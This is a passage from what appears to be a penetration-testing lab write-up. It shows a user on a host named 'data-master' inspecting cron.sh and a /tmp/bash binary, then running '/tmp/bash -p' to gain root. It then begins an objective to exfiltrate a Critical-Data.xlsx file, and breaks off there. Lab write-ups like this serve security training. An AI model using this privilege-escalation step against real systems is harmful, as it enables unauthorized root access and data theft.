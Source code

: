 * As shown, we have successfully access `data-master`.

<br/>

## Local Enumeration & Privilege Escalation - Data-Master

Checking the current user directory, there is a file called `cron.sh`. Inspect its content:

```
cat cron.sh
```

![picture 85](images/98be80149f4248b7363ad4e79dcdd3116f5158c10b27ef2bd95484a5ce12b80d.png)  

<br/>

Try to inspect the executable `bash` in the tmp file:

```
ls -la /tmp/bash
```

![picture 86](images/9e1a3e7741b804d3af064a536513f81110299b916c460df868dd1662703a16f2.png)  

<br/>

By abusing `/tmp/bash`, we can become root:

```
/tmp/bash -p
```

![picture 87](images/2cc4e74db952700ce715300113069ec9283f54df80b218d9dda3ebc1c739e9b5.png)  

<br/>

## Objective 2: Exfiltrate critical information on one of the air-gapped networks

Checking the directory `/root`, there is a file called `Critical-Data.xlsx`:

![picture 88](images/b2eb6373c82b0f8c53b0eaf7ef8803eaf3ba34ed26057dfce3ef321b76343439.png)  
